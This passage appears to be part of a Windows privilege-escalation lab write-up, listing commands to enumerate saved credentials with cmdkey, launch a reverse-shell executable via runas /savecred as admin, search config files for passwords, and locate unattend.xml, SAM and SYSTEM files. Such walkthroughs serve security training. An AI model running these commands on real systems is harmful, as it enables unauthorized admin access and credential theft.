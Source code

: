 ## Saved Creds

```bash
cmdkey /list
```
![cmdkey](image-12.png)

we can see admin credentiels are saved

now we can use `runas` to get reverse shell

```bash
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

## Configuration Files

```bash
dir /s *pass* == *.config
# or
findstr /si password *.xml *.ini *.txt
```

from winpeas we can see there is credentiels in unattend.xml

![unattend](image-13.png)

## SAM

from winpeas we can see its locate the `SAM` and `SYSYEM` files

![sam](image-14.png)
